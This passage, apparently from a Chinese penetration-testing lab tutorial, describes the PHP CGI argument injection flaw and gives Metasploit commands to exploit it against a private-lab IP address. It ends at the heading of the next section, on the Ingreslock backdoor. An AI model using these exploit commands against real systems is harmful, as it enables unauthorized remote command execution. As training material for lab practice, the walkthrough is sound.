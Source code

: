 ## 8、PHP CGI 参数注入执行漏洞

---

漏洞介绍:GI脚本没有正确处理请求参数，导致源代码泄露，允许远程攻击者在请求参数中插入执行命令。

1、在msf中搜索相关漏洞，命令如下

```bash
```

​![image](assets/image-20230408142952-z4wrsnm.png)​

2、设置相对应的参数，命令如下

```bash
use exploit/multi/http/php_cgi_arg_injection
set rhosts 192.168.23.136
run
```

​![image](assets/image-20230408143113-qf46w97.png)​

## 9、Ingreslock后门漏洞

---